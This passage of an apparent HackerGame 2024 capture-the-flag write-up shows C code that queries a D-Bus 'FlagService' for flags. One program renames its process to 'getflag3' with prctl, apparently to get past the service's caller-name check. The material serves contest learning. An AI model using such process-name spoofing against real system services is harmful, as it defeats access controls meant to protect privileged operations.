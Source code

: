```Plain Text
    close(pipefd[0]);

    if (result) {
        gchar *flag;
        g_variant_get(result, "(&s)", &flag);
        printf("Flag2: %s\n", flag);
        g_variant_unref(result);
    } else {
        g_printerr("调用 D-Bus 方法失败: %s\n", error->message);
        g_error_free(error);
        g_object_unref(connection);
        return EXIT_FAILURE;
    }

    // 如果需要处理返回的文件描述符列表，可以在这里使用 out_fd_list
    if (out_fd_list) {
        // 例如，释放它
        g_object_unref(out_fd_list);
    }

    g_object_unref(connection);
    return EXIT_SUCCESS;
}

```

![image.png](HackerGame2024+d7a78663-e26b-4866-b8d5-dfce1d0f52d7/image 33.png)

```Plain Text
#define _GNU_SOURCE
#include <gio/gio.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>

#define DEST "cn.edu.ustc.lug.hack.FlagService"
#define OBJECT_PATH "/cn/edu/ustc/lug/hack/FlagService"
#define METHOD "GetFlag3"
#define INTERFACE "cn.edu.ustc.lug.hack.FlagService"

int main() {
    GError *error = NULL;
    GDBusConnection *connection;
    GVariant *result;

    // 设置进程名为 "getflag3"
    if (prctl(PR_SET_NAME, "getflag3", 0, 0, 0) != 0) {
        perror("设置进程名失败");
        return EXIT_FAILURE;
    }

    // 连接到系统总线
    connection = g_bus_get_sync(G_BUS_TYPE_SYSTEM, NULL, &error);
    if (!connection) {
        g_printerr("无法连接到系统总线: %s\n", error->message);
        g_error_free(error);
        return EXIT_FAILURE;
    }

    // 调用 D-Bus 方法
    result = g_dbus_connection_call_sync(
```